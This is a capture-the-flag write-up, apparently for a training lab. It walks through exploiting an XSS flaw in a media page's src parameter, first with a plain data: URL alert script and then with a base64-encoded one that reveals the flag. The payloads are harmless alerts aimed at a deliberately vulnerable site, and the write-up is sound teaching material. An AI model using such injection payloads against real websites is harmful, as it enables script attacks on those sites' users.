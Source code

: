 # Breach: XSS advanced


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the media page (by clicking on the NSA logo) (`/?page=media&src=nsa`)

> When you try to edit the `src` parameter, you will notice that the src is rendered in a viewer.<br>
> You can use :
> * keywords (like `nsa`),<br>
> * relative urls (like `images/win.png`),<br>
> * plain data (like `data:text/html,<h1>Where is the flag?<h1>`),<br>
> We see that the src parameter is vulnerable to XSS.


#### Step 2:

Let's try to inject a script in the `src` parameter !

> First, let's try to inject a simple alert script.<br>
> ```url
> /?page=media&src=data:text/html,<script>alert('gimme the flag');</script>
> ```
> 
> It works !<br>
> But there is no flag for some reason.
> Let's try to do the same thing, but with a base64 encoded script.<br>

- Encode the following script in base64:
```html
<script>alert('gimme the flag');</script>
```

- It gives us:
```base64
PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```

- Inject the base64 encoded script in the `src` parameter:
```url
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnZ2ltbWUgdGhlIGZsYWcnKTs8L3NjcmlwdD4=
```


---

[[Back to main page](/#darkly)]
